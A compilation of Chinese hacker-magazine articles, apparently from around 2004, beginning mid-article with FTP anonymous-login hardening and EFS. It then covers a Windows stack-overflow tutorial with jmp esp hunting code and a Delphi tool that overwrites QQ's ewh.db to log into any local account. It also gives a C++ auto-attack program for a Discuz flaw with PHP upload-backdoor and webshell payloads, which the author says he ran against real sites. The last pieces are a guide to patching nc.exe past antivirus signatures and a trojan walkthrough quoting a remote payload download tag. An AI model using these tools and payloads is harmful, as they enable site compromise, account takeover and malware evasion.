但自该漏洞公布之后，我想人们对于自己的 FTP 服务器是否需要提供远程匿名登录已经开始考虑了。或许有的朋友会说，我们不安装这些 FTP 服务或者不开启 FTP 服务不就行了吗？是的，这样做当然可以。但我要说的是，对于入侵者来讲 FTP 这是一个很好的帮手，不管你是使用 Windows 系统还是 Unix/Linux 系统。举个例子来讲，当你远程进入目标系统后，如何将一些特定程序上传到对方的系统中呢？是的，IPC$、TFTP 都可以，但这两种方法目前已经很难奏效了。如果我们在因特网上拥有虚拟 FTP 空间，倒是完全可以登录到那台 FTP 上去下载文件，但对于许多免费 FTP 空间来说，其稳定性很难保证，三天两头登录不上去是常有的事。而即使是收费 FTP 空间，有时也不能满足我们的需要，何况还要费钱。那么使用我们自己电脑上的 FTP 服务，就成了一种非常有效的手段。但同时我们开放的服务越多，则系统的安全性就会越低，解决好 FTP 的安全隐患，也就成了一个问题。

废话讲了这么多，下边我们切入主题，先来看一下如何去掉 Windows 2000 系统中 FTP 服务组件的匿名登录。

我们通过“控制面板”打开“Internet 服务管理器”→右击“默认 FTP 站点”→选择“属性”→选择“安全帐户”，在这儿我们会看到默认选择的是“允许匿名登录”，将前边的勾号去掉。这时，系统会出现一个警告菜单，大致意思是说：如果我们使用系统中真实存在的帐号来进行登录，那么极有可能会被 sniffer 之类的程序监听到该密码，从而给系统的安全性带来很大的隐患。

对于我等个人用户来讲，其实这没什么问题，选择“是”就可以了，如图 1。


图 1

我们使用 `ftp 127.0.0.1` 来检测一下，会发现此时使用匿名帐号已经无法登录了（图 2）。


图 2

我们以 Redhat Linux 8 为例，在 Redhat 8 中一共有两个 FTP 服务组件，分别为 WU-FTPD（Washington University FTP Server）和 vsFTPd（Very Secure FTPD Server）。

我们先来看看 WU-FTPD，点击 X Window 最左下角的红色帽子图标，选择“其他→系统工具→KWuFTPD”，我们可看到默认也是允许匿名登录的（图 3）。


图 3

将“匿名”及“临时”前的勾去掉，只保留“真实”，也就是说只使用系统中真实存在的帐号来进行登录，如图 4。


图 4

而在“安全”一项中，因为已经去掉了“匿名”及“临时”帐号，所以这两项中的“允许用户使用以下命令”也可全部取消，如图 5。

点击左下角的红色帽子图标，选择“服务器设置”下的“服务”，在“服务配置”菜单中找到 “wu-ftpd”，选中它，选择“储存”。然后选择“文件”下的“刷新服务列表”，在 “wu-ftpd” 的上边几行我们也可找到 “vsftpd”，启动 vsftpd 的方法一样，甚至启动或停止其他服务的方法也差不多，如图 6。


图 5


图 6

我们在 Linux 终端下登录，此时匿名帐号也无法登录了；如图 7。

vsftpd 并没有图形界面的配置程序，它的配置是放在 `/etc/vsftpd.conf` 文件中的，我们使用文本编辑器打开这个文件；在第七行就会看到 `anonymous_enable=YES`，意思是匿名账号有效，我们将其改为 `anonymous_enable=NO`（图 8）。保存后，重新启动服务就可以了。


图 7


图 8

同样，我们再使用匿名帐号登录时，也已经无法登录成功 vsftpd 服务器了。接下来，我们就可放心使用 FTP 服务器了。

---

## 特别技巧之二——活用 Windows 自带文件加密系统

**香辣蟹**

接触网络安全技术才半年，笔者就逐渐迷上了安全技术。平时我也喜欢收集一些工具、木马、病毒和安全技术文章。在公司里机器虽然大部分时间归我使用，但公司要求使用统一的密码，工作小组里的其他成员趁我不在时也可使用我的机器。这样，我的百宝箱就很需要隐藏起来了，如果他们看见这么多可怕的工具，一定不让我呆在局域网里。

我试了很多第三方加密软件，如大力金钢锁、文件加密器等，但效果都不尽如人意。有的使用不方便，有的程序不稳定，死机几次文件就找不回来了；更有的只是个障眼法，一到命令提示符界面就原形毕露。我的拍档们都是从事 Linux 开发的，他们操作命令行界面比操作图形界面还熟悉。

我想要的是一个能把加密解密过程集成到通常的文件操作里去的加密软件。例如，用户往加密文件夹里拷贝文件时，系统能自动为其加密；当从加密文件夹往外拷贝文件时，则自动解密。而且最好密码能与我在系统中的账号密码结合，这样就不用额外地去记忆加密密码了，只要登录进系统就可打开加密文件。同时，别人偷瞄登录后却不能访问我的加密文件，而且加密文件还必须不易被暴力破解。

经笔者的多番查询，我发现自己是在骑驴找驴。其实满足以上条件的最好办法是使用 Win2000 的文件夹访问权限设置，再配合 Win2000 自带的 EFS 文件加密系统。这样就可达到不错的效果。以前在《黑客 X 档案》上也看过相关文章介绍，不过，在这里我想从实用和自己体会的角度向初学者介绍功能强大的 EFS 文件加密系统和文件访问权限系统。

## 如何加密解密

要使用 Win2000 的文件夹访问权限，首先要把分区格式化为 NTFS 格式，FAT 及 FAT32 格式是不支持的。在 NTFS 格式下，在...

## 初探Windows缓冲溢出

宋柏思

### 一、什么是缓冲区溢出

大家一定用过 strcpy()、memcpy() 等函数拷贝过字符串吧？那么大家想想如果源字符串的长度比目的字符串的长度大时会发生什么呢？对，源字符串中多余的字符会覆盖掉进程中的其它数据。这种现象就叫做缓冲区溢出。在 Windows 状态下的溢出多为堆栈溢出。

发生溢出后，进程的表现可能有三种：
- 一是正常运行，这时被覆盖的是进程中的无用数据，并且没有发生访问违例（Windows 系统中对进程的地址访问是非常严格的，有时仅一个错误的指针就会令程序崩溃）；
- 二是运行错误，如经典的改写 EIP 的攻击；
- 三是受到攻击，程序执行了有害的代码。

此时哪些数据被覆盖和用什么数据来覆盖是人为地计算出来的。

### 二、代码溢出实战

下面我们来看一段有问题的代码：

```c
#include <string.h>
void overflow(void)
{
    char buf[10];
    strcpy(buf, "aaaaaaaaaaaa");
}
int main(void)
{
    overflow();
    return 0;
}
```

上面的 overflow() 函数中定义了一个长度为 10 个字符的字符数组。当我们用 strcpy() 把 10 个 'a' 拷贝进数组时程序当然能正常运行；当我们把 20 个 'a' 拷贝进 buf 时（各个系统对缓冲溢出的保护不同，即使同是 Win2000 Server 版本，打上 SP3 跟 SP4 补丁的就不同了，要根据不同系统来测试究竟拷贝多少个字符后才发生溢出），编译运行程序就会出现错误，提示 “0x61616161” 指令引用的 “0x61616161” 内存不能为 “read”。

为什么会这样呢？我们来调试一下程序。在 VC6 下输入上面的程序，这就是说程序运行到 0x61616161 这个地址上。究竟是哪个 'a'（'a' 的 ASCII 码为 97，转换成 16 进制就是 61）成为了溢出点呢？我们将代码修改一下，把后面的 4 个 'a' 改成 'bcde'，再运行程序。现在提示变成了 0x65646362，也就是说 'bcde' 就是程序的溢出点。

我们调试程序，按 F10 运行，然后按 Ctrl+F11 调出汇编代码。一直按 F10 直到程序执行到下面这个 call：

```asm
14  overflow() {
00401088  call  @ILT+0(overflow) (00401000)
15  return 0;
```

按 F11 跟进去继续按 F10 跟踪，注意寄存器的变化（可通过“查看”→“调试窗口”→“Registers”调出寄存器，“Memory”调出内存查看器）：

```asm
8   char buf[10];
9   strcpy(buf, "aaaaaaaaaaaaaabbbb");
0040B518  push  offset string "aaaaaaaaaaaaaabbbb" (00411f54)
0040B51D  lea   eax,[ebp-0Ch]
0040B520  push  eax
0040B521  call  strcpy (004010b0)
0040B526  add   esp,8
10  }
0040B529  pop   edi
0040B52A  pop   esi
0040B52B  pop   ebx
0040B52C  add   esp,4Ch
0040B52F  cmp   ebp,esp
0040B531  call  __chkesp (004011a0)
0040B536  mov   esp,ebp
0040B538  pop   ebp
0040B539  ret
```

程序执行到这里寄存器的状态如下：

```text
EAX = 0012FF20  EBX = 7FFD3000  ECX = 0041FF6C
EDX = 00000000  ESI = 00000000  EDI = 0012FF80
EIP = 65646362  ESP = 0012FF34  EBP = 61616161
```

这时 EIP 的地址已经改变了，程序跟着就会跳到 0x65646362 这个地址中去。跟踪下去发现 0x65646362 的指令为无效指令。如果我们能够在 0x65646362 中事先填入我们的 shellcode，那么程序运行到这里就会乖乖地运行我们的代码。

我们构造 “aaaaaaaaaaaaaaaaxxxxcccc...” 的字符串，前面的 16 个 'a' 会覆盖掉堆栈高端的内存，xxxx 覆盖了函数的返回地址。函数返回时就会跳到 xxxx 这个地址中去执行指令，接着 ESP 会向下移指向 cccc。在函数返回的时候，ESP 都指向返回地址后面的地址。因此，我们的 shellcode 的开始位置就是函数返回时 ESP 所指向的位置。使用 jmp esp 指令就可以跳到我们的 shellcode 上来。

用 jmp esp（FF E4）指令的地址填充 xxxx，这样在函数返回时程序跳到该指令，再通过该指令跳转到 ESP 指向的 shellcode 处。我们要在内存中找到 jmp esp 指令的地址。系统中重要的 DLL（如 kernel32.dll，user32.dll）通常包含这条指令。在 Win2000 的 user32.dll 中可以找到一处 0x77e19eb8。找 jmp esp 指令的代码如下：

```cpp
#include <iostream.h>
#include <windows.h>
#include <tchar.h>

int main(int argc, char *argv[])
{
    int nRetCode = 0;
    bool we_loaded_it = false;
    HINSTANCE h;
    TCHAR dllname[] = _T("User32"); // 从 user32.dll 中寻找 jmp esp
    h = GetModuleHandle(dllname);
    if (h == NULL)
    {
        h = LoadLibrary(dllname);
        if (h == NULL)
        {
            cout << "ERROR LOADING DLL: " << dllname << endl;
            return 1;
        }
        we_loaded_it = true;
    }

    BYTE* ptr = (BYTE*)h;
    bool done = false;
    for(int y = 0; !done; y++)
    {
        try
        {
            if(ptr[y] == 0xFF && ptr[y+1] == 0xE4)
            {
                int pos = (int)ptr + y;
                cout << "OPCODE found at 0x" << hex << pos << endl;
            }
        }
        catch(...)
        {
            cout << "END OF " << dllname << " MEMORY REACHED" << endl;
            done = true;
        }
    }

    if(we_loaded_it) FreeLibrary(h);
    return nRetCode;
}
```

由于我们的程序可能没有默认加载 user32.dll，jmp esp 指令就不会出现在进程地址空间里。所以我们需要在代码中用 LoadLibrary("user32.dll") 装入它。加载后，0x77E19EB8 处的指令就是 jmp esp 了。

好了，找到了 jmp esp 的代码，我们用 0x77e19eb8 来填充 xxxx 的位置，定义字符串如下：

```c
char code[] = "aaaaaaaaaaaaaaaa"
              "\xb8\x9e\xe1\x77"; // jmp esp (内存中低位在前)
```

然后将 code 用 strcpy 拷贝进 buf[10]。当程序从 overflow() 返回时，ESP 指向 0012ff30，该处内容被放进 EIP 作为返回地址。此时 0012ff30 的数据是 B8 9E E1 77（即 0x77e19eb8）。按下 F10 后，程序跳到 0x77e19eb8 执行 jmp esp，随后 ESP 指向 0012FF34。如果我们的字符串在 xxxx 之后紧跟着 shellcode，程序就会开始执行它。

以上介绍了缓冲溢出的基本原理。实际上利用其进行攻击比较困难，需要分析软件漏洞、不断调试并编写通用程序。

---

## 自己动手分析、编程制作QQ离线登录器

看了 2004 年 7 月《X 档案》黑客编程栏目的“初探Windows缓冲溢出”一文，对笔者启发很大。下面进入本文的主题：自己动手分析、编程制作 QQ 离线登录器。

在 7 月的光盘里有一款工具叫做“QQ 万能登录”，能够登录任意 QQ，笔者觉得很有意思。尝试运行了一下，果然登进了 QQ。但下次运行 QQ 时会提示“输入的密码和上次成功登录的密码不一致”。笔者猜想，该软件修改了 QQ 主程序，将验证密码比较后的跳转语句进行了改动。

笔者曾对 QQ 登录过程进行过研究。在用 TRW 跟踪时，发现 QQ 在按下登录按钮后，会从安装目录下对应 QQ 号码目录里的 `ewh.db` 文件中读取加密后的密码信息，然后将输入的密码进行加密并与之比较。如果不同，则弹出提示。改动关键跳转语句确实可以进入 QQ，但这种方法局限性大，仅对部分版本有效。

于是，笔者尝试通过修改 `ewh.db` 文件来实现：将其中记录的密码信息替换成已知密码加密后的信息。使用 UltraEdit 打开 `ewh.db`，该文件长度为 60 字节。其中包含四个字节的长整型数字（QQ 号），例如 QQ 号 66171667 转换为十六进制为 03F1B313。

当笔者将 QQ 密码改成 111111（六个 1）后，`ewh.db` 的内容发生了变化。通过对比发现，加密后的密码信息长度为 16 字节。此外，文件中有 12 个字节会随计算机或 QQ 号的不同而变化，笔者估计这部分是加密时使用的密钥。笔者尝试将另一 QQ 的 `ewh.db` 对应位置替换为以下数值：

`2D BE 06 00 07 03 00 B9 AB B4 10 00 00 00 71 CE FD F3 E6 59 4F AC C0 FE A3 D1 B8 0E 5A 16`

替换后再运行 QQ，发现成功使用密码 111111 登录！为了方便操作，笔者使用 Delphi 编写了一个小程序自动替换这些内容。

主要实现代码如下：

```delphi
procedure TfrmMain.spBtnModifyClick(Sender: TObject);
var
  QQPassword : array [0..59] of byte;
  QQFile : TFileStream;
begin
  spBtnModify.Enabled := false;
  OpenDialog.InitialDir := sPath;
  if OpenDialog.Execute then
  begin
    edtFile.Text := OpenDialog.FileName;
    QQFile := TFileStream.Create(OpenDialog.FileName, fmOpenReadWrite);
    try
      // 读QQ密码信息文件
      QQFile.Read(QQPassword, 60);
      // 以下语句将QQ加密的密码信息替换为六个1的密码信息
      QQPassword[16] := $2D;
      QQPassword[17] := $BE;
      QQPassword[18] := $06;
      QQPassword[19] := $00;
      QQPassword[20] := $07;
      QQPassword[21] := $03;
      QQPassword[22] := $00;
      QQPassword[23] := $B9;
      QQPassword[24] := $AB;
      QQPassword[25] := $B4;
      QQPassword[26] := $10;
      QQPassword[27] := $00;
      QQPassword[28] := $00;
      QQPassword[29] := $00;
      QQPassword[30] := $71;
      QQPassword[31] := $CE;
      QQPassword[32] := $FD;
      QQPassword[33] := $F3;
      QQPassword[34] := $E6;
      QQPassword[35] := $59;
      QQPassword[36] := $4F;
      QQPassword[37] := $AC;
      QQPassword[38] := $C0;
      QQPassword[39] := $FE;
      QQPassword[40] := $A3;
      QQPassword[41] := $D1;
      QQPassword[42] := $B8;
      QQPassword[43] := $0E;
      QQPassword[44] := $5A;
      QQPassword[45] := $16;
      // 将修改后的密码信息写回QQ密码信息文件
      QQFile.Seek(0, soFromBeginning);
      QQFile.Write(QQPassword, 60);
    finally
      QQFile.Free;
    end;
    messagebox(Self.Handle, '修改成功，请运行QQ进行登录！', '万能登录', MB_ICONINFORMATION);
  end;
  spBtnModify.Enabled := True;
end;
```

至此，只要将目标 QQ 目录下的 `ewh.db` 文件修改，即可实现离线万能登录。笔者目前正在深入研究 QQ 的密码加密算法，欢迎有兴趣的朋友一起探讨。

## 用 INET 函数编写 Discuz 漏洞自动攻击程序

国庆前夕，连安全焦点（http://www.xfocus.net/）时看到 Discuz 出了个漏洞，这几乎是可以肯定的事情，因为前一阵我也用过这个论坛，唯一的感觉就是程序写得太马虎大意，整个代码看上去非常不严谨，非常多的变量都直接拿来使用，不做任何过滤。可能我当时没怎么分析它，果然，漏洞就出来了。

关于这个漏洞，我就不多说了，毕竟是 jambalaya 发现的，对这个漏洞有不理解的也可以去安全焦点上看看它的文章。Jam 发现的这个漏洞利用起来不太方便，要是大面积使用的话，简直就是体力活，于是我就写了一个自动攻击程序，方便大家，也方便自己。

我们先回顾一下这个漏洞，这个漏洞值得利用的地方就是：我们可以写入任意的代码到服务器，并且能执行。当然，你在 logging.php 只能写入 42 个字节（40+2）的代码，乍看之下，似乎没什么好利用的，要是屏蔽了 system、exec、shell_exec、passthru 这些函数，似乎也只能用 phpinfo() 来看看环境变量了。可后来发现，构造数据包提交的数据可以写入更多的代码（至于最多多少我没有试过，我写入了 50 多个，因为它已经够用了），这就方便了很多。虽然所有的提交代码经过 array_stripslashes 函数，也就是特殊字符都会被加上“\”，但是小心一点，还是可以写入任意代码的。

我们的思路是这样的：向服务器提交一段非法代码，写入一段上传文件的代码，然后再向我们写入的代码提交一个 POST 数据，这些数据里包括的就是任意的 webshell 数据。这样，就可利用这个漏洞达到给服务器上传任意文件的目的，也就是我接下来要说的这个自动攻击程序。

不过这里面有个问题，我看到 jam 写这个漏洞时是 9 月 29 号，他的这篇文章早在 9 月 20 号就发出来了，时间上差了很多，这样很多人拿到漏洞就乱来，在 illegallog.php 文件里面写入一大堆错误代码，导致 illegallog.php 不能执行，是这个漏洞的唯一缺陷，郁闷……

废话少说，先看一段代码：

```php
<?php if(isset($_GET[sv]))copy($_FILES[xf][tmp_name], $_GET[sv]);?>
```

这段代码就是我们要给服务器写入的非法代码。有了这段代码，加上我们提交的一组 POST 数据，就可给服务器上传任何文件。这里面的 `if(isset($_GET[sv]))` 是给别人留点后路，呵呵！如果不存在这个提交，就不执行这段代码。

下面我们开始，我用的是 BCB 6.0，其实语言都差不多，BC 写界面方便，怎么方便怎么写。INET 函数很少，大家可以看看 MSDN 上的说明，我们这次要用到的函数是：

```cpp
HINTERNET InternetConnect(
    HINTERNET hInternet,
    LPCTSTR lpszServerName,
    INTERNET_PORT nServerPort,
    LPCTSTR lpszUsername,
    LPCTSTR lpszPassword,
    DWORD dwService,
    DWORD dwFlags,
    DWORD_PTR dwContext
);

HINTERNET HttpOpenRequest(
    HINTERNET hConnect,
    LPCTSTR lpszVerb,
    LPCTSTR lpszObjectName,
    LPCTSTR lpszVersion,
    LPCTSTR lpszReferer,
    LPCTSTR* lplpszAcceptTypes,
    DWORD dwFlags,
    DWORD_PTR dwContext
);

BOOL HttpSendRequest(
    HINTERNET hRequest,
    LPCTSTR lpszHeaders,
    DWORD dwHeadersLength,
    LPVOID lpOptional,
    DWORD dwOptionalLength
);

BOOL InternetReadFile(
    HINTERNET hFile,
    LPVOID lpBuffer,
    DWORD dwNumberOfBytesToRead,
    LPDWORD lpdwNumberOfBytesRead
);
```

下面再给出我们的主要函数，然后再来慢慢解释：

```cpp
int __fastcall TForm1::chksite(
    char *szServerName,
    char *szFormAction,
    char *szMethod,
    int dn)
{
    // 传递过来的变量是服务器名称、动作、路径和模式，dn就是模式，0是GET模式，1是POST模式
    HINTERNET hSession = 0, hConnect = 0, hRequest = 0; // 变量
    int ret = 0; // 返回值

    hSession = InternetOpen(
        "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)",
        INTERNET_OPEN_TYPE_PRECONFIG,
        NULL, NULL,
        0);

    if (hSession) {
        hConnect = InternetConnect(
            hSession,
            szServerName,
            INTERNET_DEFAULT_HTTP_PORT,
            // 这里可以修改端口，用这个宏表示默认80端口
            NULL,
            NULL,
            INTERNET_SERVICE_HTTP,
            0,
            1);

        if (hConnect) {
            hRequest = HttpOpenRequest(
                hConnect,
                szMethod,
                szFormAction,
                HTTP_VERSION,
                NULL,
                0,
                0,
                1); // 构造提交数据

            if (hRequest){
                if(szMethod[0] == 'G'){
                    if (HttpSendRequest(hRequest,
                        NULL,   // 这个是头部信息, 我们 GET 就省略了
                        0,      // 头部信息的长度
                        NULL,   // POST 信息, 我们的 GET 就省略了
                        0))){   // 发送提交数据

                        char szReadBuffer[501]={""};
                        DWORD lNumberOfBytesRead = 0;
                        if(InternetReadFile(hRequest,
                            szReadBuffer,
                            500,
                            &lNumberOfBytesRead
                        )){ // 接收服务器反馈
                            if(strcmp("Access Denied", szReadBuffer) != 0){ // 判断是否有漏洞
                                ret = 1;   // ret 是返回标志, 除了 0 是失败, 1 是成功外, 其他都代表一个错误信息
                            }
                        }else{
                            ret = 2;
                        }
                    }else{
                        ret = 3;
                    }
                }else{
                    memset(sendbuffer,0,sizeof(sendbuffer));
                    if(dn == 0){
                        sprintf(sendbuffer,szPostData[dn], chkurl.c_str(), "%BB%E1%D4%B1%B5%C7%C2%BC");
                        // 填充数据包给 logging.php, 写入非法代码
                    }else{
                        memcpy(sendbuffer,szPostData[dn],strlen(szPostData[dn])); // 拷贝我们的 POST 数据给发送缓冲区
                        // 构造漏洞数据
                    }
                    if (HttpSendRequest(hRequest,
                        szHdrs[dn],
                        strlen(szHdrs[dn]),
                        sendbuffer,
                        strlen(sendbuffer))){
                        ret = 1;  // 发送成功, 返回
                    }else{
                        ret = 3;
                    }
                }
                InternetCloseHandle(hRequest); // 关闭句柄
            }else{
                ret = 4;
            }
            InternetCloseHandle(hConnect);
        }else{
            ret = 4;
        }
        InternetCloseHandle(hSession);
    }else{
        ret = 4;
    }
    return ret;
}
```

我们知道，这次的这个 Discuz 漏洞不是每个版本都有，有的版本的 illegallog.php 有一句 exit 就挡住了所有问题。于是我们用 InternetReadFile 来读取服务器信息，用是否返回 “Access Denied” 字符串的形式来判断问题的存在。

该函数有两个作用，一个是可以 GET 服务器的一个文件，看看返回的是什么信息；另外一个就是可以向服务器 POST 具体的数据。当然，这个数据可以是我们自己构建的。

因为 GET 方式很简单，限于篇幅，我就不说了，POST 方式的数据如下：

```cpp
char *szPostData[] = {
"referer=%s"
"&username=<?if(isset($_GET[sv]))copy($_FILES[xf][tmp_name],$_GET[sv]);&password=?>XXX"
"&leid=&cookietime=2592000&loginsubmit=%s"
,
"-------------------7d430d2140108\r\n"
"Content-Disposition: form-data; name=\"xf\"; filename=\"C:\\a.txt\"\r\n"
"Content-Type: text/plain\r\n"
"\r\n"
"<?if(isset($_GET['act'])){if(copy($_FILES['xf']['tmp_name'],\"{$_POST['fn']}\"))echo \"SAVE TO {$_POST['fn']} OK!\";}"
"else{?><HTML><HEAD><TITLE><?=__FILE__?></TITLE><BODY>PATH:<?=__FILE__?><br><form method='post' action='?act=1' enctype='multipart/form-data'>SAVE TO:<input name='fn' type='text' size='60'><br><br>FILE:<input name='xf' type='file' size='60'><input name='ub' type='submit' value='上传'></form></BODY></HTML><?}?>"
"\r\n"
"-------------------7d430d2140108--\r\n"
};
```

这里面有两个字符串，一个是给 login.php 用的写入 illegallog.php 的代码，也就是开头说的那个 copy 代码。第二个字符串就是给第一个字符串提交 POST，让我们的 copy 代码执行的代码。

其中，“`<?if(isset($_GET['act']))...........</HTML><?}?>`” 这段是转写的一段小 webshell，目的就是允许用户上传文件。这段 shell 你可以替换成自己的 webshell。

这里还需要注意两个数据：

```cpp
const char *szHdrs[] = {
"Content-Type: application/x-www-form-urlencoded\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*\r\n",

"Content-Type: multipart/form-data; boundary=-------------------7d430d2140108\r\n"
"Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*\r\n"
};
```

其中，第一个字符串是给 GET 方式用的，我们的 POST 方式要用到第二个 Content-Type，也就是格式 multipart/form-data。

编译一下，OK！我拿着编好的软件上百度去搜索了几个站点，成功率还是不错的（除了那些已经被别人乱改过的），大家可不要用来干坏事哦！

文章中有些地方看不明白的，大家可看看光盘上的源代码和软件！

## 让杀毒软件 PASS
**作者：雪莲蓬**

# 毒笼

上次写了篇“让杀毒软件 PASS ASP 文件”的文章，现在看起来方法太简单了，有点对不住大家。

最近很多朋友在论坛给我发消息问有什么好的加壳软件，能让处理后的文件逃过杀毒软件的查杀。其实并不是只有加壳这种方法能让杀毒软件 PASS 可执行文件，在这篇文章里给大家介绍如何提取杀毒软件的特征码，并根据特征码修改 EXE 文件，从而逃过杀毒软件的查杀。

在“让杀毒软件 PASS ASP 文件”一文中，给大家介绍过：杀毒软件是通过对程序体与描述结果（亦即特征码）进行比较而查找病毒的。如果我们能拿到软件的特征代码并针对性地修改后，那么杀毒软件就只有抓瞎了。这里我们就以瑞星为例！

现在，我们要找到病毒库是哪个文件。首先升级瑞星，因为升级后病毒库也会更新，升级完毕后从文件的时间和大小上可判断病毒库的文件名。经过判断，Virus.def 就是瑞星的病毒库。用 16 进制编辑器打开该文件，发现全是乱码，没有一点有用的信息。当然，病毒库对于杀毒软件公司来说是命根子，怎么会轻易给你看呢！只有自己想办法了。


不知道大家有没有注意到，将一个 EXE 文件加壳后，虽然按文件杀毒的方式不会报毒，但在内存中还会被查杀的！这是为什么呢？因为所有程序在被调用前都会在内存中还原。不管怎么加壳，最终在内存中都会被还原成未加壳状态。同时，Virus.def 虽被加密了，但它还是要被调用，既然要被调用，就必须在内存中还原。按照这个思路可得出结论：杀毒时内存中肯定会有明文的病毒库特征码。

这里我们用大家熟悉的 nc.exe 来做一个示范！首先，我们要确定瑞星给 NC.EXE 定义的病毒名字。这个好办，先查一下，一定要在设置中选择发现病毒后忽略（图1），不然瑞星发现了会马上将其删除。设置完后就开始查杀吧！马上就报警了，从图2中我们可看到瑞星发现 Hack.conin 病毒，这个应该就是瑞星给 nc.exe 定义的名字！


使用 16 进制编辑器 Winhex 打开内存编辑，选择进程 Rav 的主要内存（图3）。


进去后搜索字符串“Hack.conin”，确实发现了两处，但怎么看都不像病毒特征代码。难道思路上有问题？

到这里似乎陷入了僵局。我仔细思考文件从一开始被调入内存然后到使用完后从内存释放的整个过程。“使用完后从内存释放！”是啊！刚才打开的内存是全部查杀完成后的内存，特征代码可能在这时已使用完毕被释放掉了。如果只是这样就好办了。为了保证杀毒程序长时间调用特征代码库，在内存中我使用的办法是：让瑞星扫描整个磁盘。在开始扫描文件时暂停扫描程序，因为此时特征代码库已被完全载入内存。再将 rav 进程的内存用 Winhex 打开，并搜索“Hack.conin”，几次之后来到了图4所示的地方。

看来这个就是其真正的特征代码了，但怎么确定哪部分是特征代码呢？又陷入了一个难题。


经过几次分析，发现特征代码被放置在病毒名字前面。从图4中可看出，从 ASCII 码 “Hack..Storm” 到 “Hack.conin”，这段范围就是 nc.exe 的特征代码了。继续分析，发现从第一个 “10” 后开始就是 nc.exe 的特征代码。那么，这里 nc 的特征代码就是：`53 56 57 89 65 E8 FF 15 5C 22 41 00 33 D2 8A D4`。再往后偏移到下一个 “10” 后，又有一段 nc.exe 的特征代码。为防止误报肯定要多个条件满足的。

找到特征码后就好办了。直接用 Winhex 打开 nc.exe，搜索二进制代码 “53 56 57 89 65 E8”，马上找到并跳转到代码处（图5）。


本想用汇编跟一跟这地方，看到底是什么意思，但本人汇编太差，跟了半天没结果，只好“乱”改了！改错了程序根本不能运行，会有内存错误之类的提示（图6）。


瞎猫碰到死耗子，将 “53 56 57” 改为 “54 56 57”，存档并运行，居然没有报错。运行程序测试，一切正常！测试各种功能均成功。使用瑞星查杀没有报警，至此修改完成。

通过上面的过程，我发现汇编真的很重要！看来要去重学汇编了。哪位高手如果知道这段代码代表什么意思，麻烦告诉一声罗，谢谢啦！

# 毒龙

进程管理器：这可不是 Windows 自带的那个，它可显示出隐藏进程和进程的详细资料，下文简称管理器；Winhex：十六进制编辑器。

- 1. 先安装 RegSnap 和管理器，一路“下一步”就好。再打开 QQ，把自己加为好友（以方便测试，方法是把自己的号码添加到黑名单，再拖到好友里），然后关闭病毒防火墙。注意：关闭的是病毒防火墙（也就是杀毒软件的实时监控）！而不要关闭你的网络防火墙（如天网）。这里以天网为例，将天网的安全级别设为高（提示：为什么要打开天网？因为我们要用天网的应用程序访问规则来阻止可能的病毒对网络的访问）。

- 2. 再打开 IE 属性，将主页改为空白页，清空所有的 IE 历史记录，清除 Cookies，清空记录的网络密码和地址栏，重置 Web 设置，清空 IE 临时文件夹 \Temporary Internet Files\（因为此病毒是用 IE 传播的，这样能避免一些未知因素对跟踪的影响，总之，还是那句话，尽量要干净）。

- 3. 然后打开临时文件夹 %TEMP%，并且清空它。打开一个 IE 窗口，打开管理器，打开 Winhex。然后打开注册表编辑器，将注册表导出，以作备份。

- 4. 最后，打开 RegSnap 新建一个系统快照，选择“快照全部”。在“Windows NT 选项”中选择“规格化”，选中“保存键值”，没必要选择“保存 DLL 版本信息”（图1）。点“确定”，过一会儿便会生成一个快照1（这时先不要去保存此快照）。到现在，准备就基本完成了，以上顺序不要打乱，否则 RegSnap 检测到的系统变动可能包含你自己的设置，致使结果不准确。

- 5. 好了，现在切换到刚才打开的 IE 窗口，打开病毒网站 http://kafei8.com（图2），这时它可能会提醒你是否下载并运行某个插件（看你的 IE 安全设置了），点击“是”。这样，你就中晕……

- 6. 还记得让你打开的 %TEMP% 文件夹吗？看看里面，是不是已经有 win.exe、geo.exe 和 QQ.exe 三个文件了？而报告中没有，这是因为 RegSnap 不监视 %TEMP% 文件夹。在 IE 临时文件夹 \Temporary Internet Files\ 中还会发现有一个 Win[1].htm（现在知道为什么还要清空 IE 临时文件夹了吧 ^_^）。可以看到这几句代码：

```html
<OBJECT
  classid="clsid:36CB6B28-FC08-4373-8F54-1A02E3C15B7D"
  codebase="http://138soft.com/WebDownLoadProj1.ocx#version=1,0,0,0"
  width=282
  height=92
  align=center
  hspace=0
  vspace=0>
  <param name="StrUrl" value="http://3kb.nease.net/win.exe">
</OBJECT>
```

不难看出，http://3kb.nease.net/win.exe 就是病毒文件了，现在所有的病毒文件都找到了，接下来的分析工作要由你自己来完成了，我再提示一些线索：win.exe 运行后，管理器中会发现多了 win.exe、QQ.exe 和 Intrenat.exe 进程（图4）。

- 7. 把所有文件集中在非监视的临时空目录中，单独运行每个程序，用上面的方法得到每个文件的作用。

在此过程中，可能有些朋友不知道怎样来单独运行 win.exe，而禁止 QQ.exe 和 geo.exe 的运行。其实，只要用记事本在 %TEMP% 中创建这两个文件，内容为（不包括引号）：“MZ    QQ．@@” 引号内空白为若干空格，至少要 20 个，多多益善。保存为 QQ.exe 和 geo.exe（这样写，QQ.exe 和 geo.exe 运行时会出现一个 DOS 窗口，而不是提示“不是有效的 Win32 应用程序”，因为 win.exe 加载这两个文件时会消除这条错误提示，你将看不到 QQ.exe 和 geo.exe 曾被执行）。再将“属性”设置为“只读”。这样，再运行 win.exe 就行了【图5】。

- 8. 打开 Qq32.ini，会发现里面储存着自动发送的消息。从进程管理器可发现，sendmess.exe 运行时，在其它进程的引用模块中会发现 qqmess.dll。

用 winhex 打开 sendmess.exe，会发现 Qq32.ini 中的内容。用 Winhex 打开 WinSock.dll，发现第一行为 MZ（32 位 win32 应用程序是以 MZ 开始的）；把它改名为 .exe，能成功执行，执行效果和文件大小都和 intrenat.exe 相同。

能在 qqmess.dll 中发现如下代码：
`Microsoft Visual C++ Runtime Library……`

所以怀疑病毒可能用 C++ 语言编写的。把这些同你发现的每个病毒文件的作用一起分析一下，就会得到上文的结论了。最后，别忘了将备份的注册表恢复，任务完成！

你也可以去跟踪其它简单的病毒或木马程序，不久以后，你就会发现你已经变成经验丰富的老鸟了^_^。

> （本文相关工具包已收录：QQ 病毒相关文件 8 个、RegSnap 检测报告、bat 编写的 QQ 病毒免疫程序，进程管理器）

**问：呆呆虫，我的防火墙中有很多被拦截下来的与 ICMP 协议有关的记录，是不是入侵者在对我进行入侵前的 ping 扫描呢？**

